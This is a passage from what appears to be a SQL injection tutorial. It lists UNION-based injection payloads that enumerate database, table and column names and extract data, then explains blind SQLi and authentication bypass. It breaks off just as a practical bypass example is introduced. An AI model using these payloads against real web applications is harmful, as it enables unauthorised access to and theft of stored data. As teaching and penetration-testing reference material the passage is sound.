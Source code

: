    ```sql
   ```
4. Extract database names, table names, column names and data.
   ```sql
   # Database Names
   ' UNION SELECT null,null,group_concat(schema_name) FROM information_schema.schemata

   # Database Name Alternative for Current/Active Database
   ' UNION SELECT null,null,database()

   # Table Names
   ' UNION SELECT null,null,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'SPECIFY_DATABASE_NAME'

   # Table Names Alternative for Current/Active Database
   ' UNION SELECT null,null,group_concat(table_name) FROM information_schema.tables WHERE table_schema = database()

   # Column Names
   ' UNION SELECT null,null,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'SPECIFY_TABLE_NAME'
   
   # Retrieve Data
   ' UNION SELECT null,null,group_concat(SPECIFY_COLUMN_NAME,SPECIFY_COLUMN_NAME) FROM SPECIFY_TABLE_NAME
   ```

## Blind SQLi
Like in-band SQLi,  blind SQL injection (also known as Inferential SQL Injection) arises when a web application is vulnerable to SQLi but the HTTP responses do not contain results of the relevant SQL query or the details of any database error. Blind SQLi requires the attacker to reconstruct the database structure step-by-step by observing the behaviour of the database server and web application. SQL injection techniques like UNION attacks are not as effective in blind SQLi due their reliance on being able to see the results of the injected query but still possible though time consuming.

There are two variants of blind SQL injection that are commonly used: `Content-based Blind SQL Injection` and `Time-based SQL Injection`.

One of the most common and straightforward applications of blind SQL injection technique is bypassing authentication. 

### Authentication Bypass
In authentication bypass attacks, an attacker is less concerned with retrieving data from the database which makes blind SQLi less complex and time consuming.

Often web applications with login forms and their underlying databases are developed in a way that isn't interested in the content of the username and password fields but whether the two fields make a matching pair in a specific table. An authentication bypass attack relies on this behaviour to create a database query that replies with a TRUE or FALSE thereby making valid username/password pair enumeration unnecessary.

Let's look at a practical example of an authentication bypass attack.
